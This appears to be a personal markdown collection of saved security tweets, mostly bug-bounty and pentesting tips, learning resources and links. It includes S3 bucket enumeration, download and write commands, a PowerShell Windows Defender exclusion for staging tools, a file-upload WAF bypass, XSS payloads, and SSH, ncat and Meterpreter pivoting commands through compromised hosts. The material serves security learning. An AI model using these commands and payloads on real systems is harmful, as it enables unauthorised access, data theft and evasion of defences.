# Twitter tips

Collection of tweets I bookmarked and end up saving here, given how volatile they can be.

## S3 bucket commands (@_probatorem)

Found an S3 Bucket? Try these commands:

aws s3api get-bucket-acl --bucket [BucketName]
aws s3 ls s3://[BucketName]
aws s3 mv test.txt s3://[BucketName]
aws s3 cp test.txt s3://[BucketName]
aws s3 rm s3://[BucketName]

## Windows Defender exclusion (@_th3y)

TIL: Need to upload sketchy shit onto a box? Create a Windows Defender exclusion with PowerShell

Add-MpPreference -ExclusionPath "C:\users\lolcats\AppData\mysketchdir"

## Reflected XSS on instagram (@Samm0uda)

One-click reflected XSS in http://instagram.com due to unfiltered URI schemes leads to account takeover ($9600): https://ysamm.com/?p=695

## 3 resources to find bugs (@KathanP19)

The only three resource you need to find Bugs in Web Application and score some bounties:

1. https://github.com/danielmiessler/SecLists/tree/master/Discovery/Web-Content
2. https://github.com/KathanP19/HowToHunt
3. https://github.com/swisskyrepo/PayloadsAllTheThings

## Find subdomains + scan open ports + take screenshots (@edu4rdshl)

Do you want to find subdomains, scan all open ports fastly (with address deduplication and parallel scans), and take screenshots of all the possible host:port combos? Use Findomain + Unimap in the following way: 



## WAF bypass (@HackENews)

WAF bypass during exploitation of file upload Feu 
/?file=rce.php    <-- Blocked
/?file=rce.php.jpg <-- Blocked
/?file=rce.php5 <-- Blocked
/?file===rce.php  <-- Bypassed 200 OK

## XSS payload (@XssPayloads)

A good one by @rodoassis, leveraging the Sec-Fetch-Dest 'security' header...
```html

```

## Find leaking AWS keys (@h4x0r_dz)

In this tweet, I will explain to you How to find Leaking AWS Keys. 


basically, You can search for something at bevigil.com/search
For example "aws_secret" and Select `code`:


You can search for something In a specific app Using it's Id.
For example Twitter app (com.twitter.android):


If your target app does not exist In bevigil, You can add it : For example I want to add Djezzy app (com.djezzy.internet). Wait a few minutes and it will be ready On bevigil.


as a bug hunter, search for all secret API keys, not only the AWS.
For example GOOGLE_API_KEY RegEx: AIza[0-9A-Za-z\-_]{35}


For more Info about secret & sensitive API keys for bug bounty, Go to KeyHacks repository:
https://github.com/streaak/keyhacks

## Tunneling and port-forwarding concepts (@infosec_advisor)

I have seen a lot of #pentesters struggle with tunneling and port-forwarding concepts. All hackers should definitely understand these concepts for successful tests.
This thread is dedicated to Tunneling/PortForwarding tricks.

**Local Port2Port**
Open new Port in SSH Server --> Other port
ssh -R 0.0.0.0:10521:127.0.0.1:1521 user@10.0.0.1 #Local port 1521 accessible in port 10521 from everywhere
ssh -R 0.0.0.0:10521:10.0.0.1:1521 user@10.0.0.1 #Remote port 1521 accessible in port 10521 from everywhere

**Port2hostnet (proxychains)**
Local Port --> Compromised host(SSH) --> Wherever
ssh -f -N -D <attacker_port> <username>@<ip_compromised>

**SSHUTTLE**
You can tunnel via ssh all the traffic to a subnetwork through a host.
Example, forwarding all the traffic going to 10.0.0.1/24
pip install sshuttle
sshuttle -r user@host 10.0.0.1/24

**Meterpreter** 
@metasploit
meterpreter > portfwd add -l 80 -r 172.16.0.0 -p 80

**Ncat Port Forwarder**
mknod pivot p
nc -l -p < port to listen on> 0<pivot | nc 1>pivot

**Remote port forwarding**
ssh -N -R 10.10.1.1:4455:127.0.0.1:445 attacker@10.10.1.1
**Socks5 with SSH**
ssh -N -D 127.0.0.1:8888 admin@10.1.1.1

**SSH Dynamic Port Forwarding**
ssh -N -D 127.0.0.1:1337 user@remotehost -p 8888

**Ncat Http Proxy**
ncat -vv --listen 3128 --proxy-type http

**SSH graphical connection (X)**
ssh -Y -C <user>@<ip> 
-Y is less secure but faster than -X

## XSS polyglot (@JacksonHHax)

```javascript
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

## Finding if it's a honeypot (@_mattata)

Can't figure out if it's a honeypot or not?
Max out the URI length!
If it still returns a non-4xx error code, it's probably not a service operating at L7 ;)


## Stored XSS payload (@Hunt4Crush)

```html
&quot;&gt;&lt;img src=x onerror=confirm(document.domain);&gt;
```

## Bug bounty guidelines (@adi_thatipalli)


## Quick and dirty S3 hacking (@johnjhacking)

1/Quick and Dirty S3 Hacking:
#bugbountytip #infosec 
> Always look through source code of subdomains.
> If you find an S3 bucket, navigate to it. If you see file/directory listings, download the AWS CLI tool.

> sudo apt install awscli
> create free AWS account; https://aws.amazon.com/free/
> sign-in to https://console.aws.amazon.com/iam/ with that account
> click on users, click on add user
> name user whatever, click the programmatic access box
> click create group, click AdministratorAccess

> add the user to that group
> click next, click next, create
> click on the user, click on security credentials
> click on create access key, grab the access key id and the secret access key
> go back to terminal
> sudo aws configure
> enter access key/id

> hit enter all the way through until you're done
--HACKING--
Cool, so now you're setup on CLI, you probably want to exploit it now. The exposed bucket url will look like this:
https://bucketname.s3.amazonaws.com or some variation of that.

First, you'll want to look at the bucket permissions:
> aws s3api get-bucket-acl --bucket bucketname
You don't need the http://s3.amazonaws.com part

To list the contents of the bucket:
> aws s3 ls s3://bucketname

If you see a bunch of directories, you're probably golden. You'll probably want to test for write access because at that point you can get RCE and it turns into a Critical. You'll also want to look for PII or data the org wouldn't want exposed in the files.

It can take a long time to look through each of the directories manually, there's an easier way to grab all content:

> aws s3 sync s3://bucketname .

This will grab everything. Make sure you have space ha.

Let's say you're SOL. The bucket has 0 sensitive files, all image files. Testing write access is the way to go:

> echo "BOOM" > rceproof.txt
> aws s3 mv rceproof.txt s3://bucketname
> aws s3 ls s3://bucketname

If you have write access on a bucket hosting non-impact related items, you can easily turn a "not vuln" into a Crit.

There's far more you can do, but this is for people looking to make a quick bounty.

## CloudFail - Information Gathering (@SkyNetTools)

(CloudFail - Information Gathering to Discover Identity of the Server Behind Cloudflare) - https://skynettools.com/cloudfail-information-gathering-to-discover-identity-of-the-server-behind-cloudflare/

## Surveillance self-defense (@IanColdwater)

Folks doing protest stuff: I've seen a lot of asks for information about how to keep your devices safer and some questionable info going around recently. Here is a really good resource about keeping yourself and your devices safer from surveillance

https://ssd.eff.org/en

## Fuzzing for directories (@HackENews and @nnwakelam)

> add them all together > uniq them > run them with ffuf

When Fuzzing For Directories Follow these wordlists.
1. dirsearch 
2. directory-list-2.3-medium
3. httparchive_directories
4. Raft
5. RobotsDisallowed

Then go for technology-specific chances are high with these wordlists

Sources for these wordlists:

https://wordlists.assetnote.io/
https://github.com/danielmiessler/SecLists/tree/master/Discovery/Web-Content

You can also try big.txt, content_discovery_all.txt by @Jhaddix, fuzz.txt by @i_bo0om,Check which one works best for you. Good Luck!!!

## HackerOne tip (@ArchAngelDDay)

Pay attention to your @Hacker0x01 rep log at https://hackerone.com/settings/reputation/log. Whenever you see a Dupe report get +2 reputation, it means the original report was just Resolved. Then retest your report to see if you can still repro. I've made a non-trivial amount this way.

## Tutorials on pointers (@netspooky)

One of the best tutorials on pointers I've seen:

THE BASICS AND PITFALLS OF POINTERS IN C
https://hackaday.com/2018/04/04/the-basics-and-pitfalls-of-pointers-in-c/

WHEN 4 + 1 EQUALS 8: AN ADVANCED TAKE ON POINTERS IN C
https://hackaday.com/2018/04/19/when-4-1-equals-8-an-advanced-take-on-pointers-in-c/

DIRECTLY EXECUTING CHUNKS OF MEMORY: FUNCTION POINTERS IN C
https://hackaday.com/2018/05/02/dir

## Cookie tip (@pry0cc)

Today I learned that if you ever find a cookie that looks like this:

Fe26.2**0cdd607945dd

Fe26.<Version>*<Key Id>*<Encryption_Key_Salt>*<Encryption_IV>*<Encrypted_Payload>*<Expiry_Time>*<MAC_Key_Salt>*<MAC>

You can test it using lronfilings! https://github.com/tkeetch/iron-filings

## Learning mimikatz (@EricaZeli)

Wanna learn how Windows really works under the hood?  Learn mimikatz.  Here's a good place to start: https://adsecurity.org/?page_id=1821

## Automating XSS (@ofjaaah)

Arjur + paramspider + axiom + dalfox + list xss priv (XSS-OFJAAAH.txt)

## Recommended books (@TinkerSec)

Folks often ask how to get into pentesting.

I recommend two books:
- Penetration Testing: A Hands-On Introduction to Hacking by Georgia Weidman - https://nostarch.com/pentesting

- The Hacker Playbook(s): Practical Guide to Penetration Testing by Peter Kim - https://securepla.net/hacker-playbook/

I recommend getting started in CTFs to practice tooling. 

A great start is:
- OverTheWire: Bandit - https://overthewire.org/wargames/bandit/

What are some beginning courses, books, CTFs, etc., that you recommend to folks who want to get into Penetration Testing?

## Buffer Overflow course (@TheBlindHacker)

Free #BufferOvferlow course by @breachlabs_io
 
https://youtube.com/watch?v=XKJbZ7yzIh4&t=11s

## Bug bounties: Tips from the triager (@SecureOwl)

I wrote a thing that I've been meaning to put together for some time. I don't think there is anything groundbreaking in here, but it should serve as a reminder of what goes on behind the scenes.

Bug Bounties: Tips from the Triager https://link.medium.com/jKuVwc6K1eb #infosec #bugbountytips

## Abusing data protection for d0xing and account takeovers (@Hxzeroone)

Hey
I wrote a paper on Abusing Data Protection Laws For D0xing & Account Takeovers. This research lead to over 5 figures in bounties & affected companies including Shopify, Gitlab, Tesla.
Click here to check it out and let me know what you think!
 
https://hx01.me/Abusing_Data_Protection_Laws_For_D0xing_and_Account_Takeovers.pdf

## Burp Suite + ffuf (@joohoi)

We all love Burp suite by @PortSwigger, right? Want to send over all the ffuf job matches to Burp? Easy with -replay-proxy

ffuf -u https://example.org/FUZZ -w wordlist.txt -replay-proxy http://127.0.0.1:8080

If you ffuf on remote box, this totally works through ssh tunnels too!

## Cybersecurity CV templatesa (@Gerald_Auger)

https://www.simplycyber.io/free-cyber-resources

## LinkedIn challenge? (@ITJunkie's)

Also working on @ITJunkie's LinkedIn challenge and I'm almost halfway to that 1000 connections〜

## RCE to shell and others OCSP tips (@initinfosec)

https://threadreaderapp.com/thread/1354452459062759427.html

## Bypass WAFs tip (@HolyBugx)

You can bypass WAFs using a simple Match&Replace rule in Burp Suite, I used it and I simply bypassed a WAF restriction just now.
I Covered the Syntax and the Headers you can use.




## Testing password fields (@secalert)

When testing password fields, my preferred password is:
%01%E2%80%AEalert%0D%0A

Let's break it down:
%01 is SOH
%e2%80%ae is RTLO
%0d%0a is CRLF

Test cases on login:
1. can I log in only using %01?
2. without the CRLF in it?
3. is trela accepted instead of alert? (due to RTLO)

SOH stands for "start of heading". It is "U+0001". 
You can read an example of how it can help you here:
https://secalert.net/index.html?#scl-soh

RTLO is "right-to-left-override". It is "U+202E".
You can read an example of how it can help you here:
https://secalert.net/index.html?#2020_2

## Sci-fi movies (@hackermaderas)

In no order, some of my favorite science fiction films; feel free to reply w/ your list:
Blade Runner
12 Monkeys
La Jetée
World on a Wire
Blade Runner 2049
Battle Royale
Total Recall
Stalker
2001: A Space Odyssey
Solaris
Elysium
The Terminator
Akira
Ghost in the Shell
Aliens
Pi

In no order, some of my other favorite science fiction films; feel free to reply w/ your list:
Children of Men
They Live 
Escape from NY
The Thing
Primer
Ex Machina
Dark City
The Matrix Reloaded
The Matrix
Animatrix
The Endless
District 9
Outland
Moon
Robocop
Starship Troopers

## Starting out with bug bounties (@SMHTahsin33)

Hello,
If you are just getting started into bug bounties and can't find enough resources, this thread might help you to find a way 👇
To get started into bug bounties , These two blogs are suggested to be read.
1. https://whoami.securitybreached.org/2019/06/03/guide-getting-started-in-bug-bounty-hunting/ by @KHIZER_JAVED47
and
2. https://0xprial.com/how-to-get-into-bug-bounties-part-01/

These covers a lot of the basics and will help you to get started with different bug classes.

 Learn and Practice More. These Resources are open playgrounds for learning and practicing:
1. @WebSecAcademy (My Most Favorite Free Lab)
2. @RealTryHackMe
3. @PentesterLab
Here you can learn and practice at a time.
And...
@BugBountyHunt3r is a standalone thing in my views, it's paid but worth every penny. It can get you from the beginning to a level where you get much confidence to get started with real world targets.
Wanting to deep dive into different bug classes?
1. Read Writeups from
@InfoSecComm
2. Read disclosed @Hacker0x01 reports
https://hackerone.com/hacktivity 
3. @BugBountyHunt3r Has Compiled The H1 Reports and categorized them
https://www.bugbountyhunter.com/disclosed/  (1/2)
4. @PentesterLand has a huge collection of writeups:
https://pentester.land/list-of-bug-bounty-writeups.html
(2/2)

 Youtube Channels?
1. @NahamSec (He Has Interviews with a lot of great hackers from the community)
2. @stokfredrik (His video will give you a lot of motivations and knowledge)
3. @InsiderPhD (Her Videos Will Help you to get started) [1/2]
4. @PwnFunction (He has great explained videos on different bug classes)
5. @TomNomNom also has a lot of great videos.
6. @zseano (He has great mentoring videos)
7. @0xReconless (He has a lot of great content out there)
Some More In The List:
8. @codingo_ (He explains everything well❤️)
9. @hakluke (He Explains very well Too) 

Still Need Some More Ways To Get Writeups?
No Tension @payloadartist Here with a solution.
Visit https://www.bugbountyhunting.com/  and Search by any Bug Name and Boom!

Learnt some bugs?
Here you go.. You will find ways of how to hunt for them and also their bypasses :
https://github.com/KathanP19/HowToHunt
by @KathanP19 and Contributed by the Community❤️
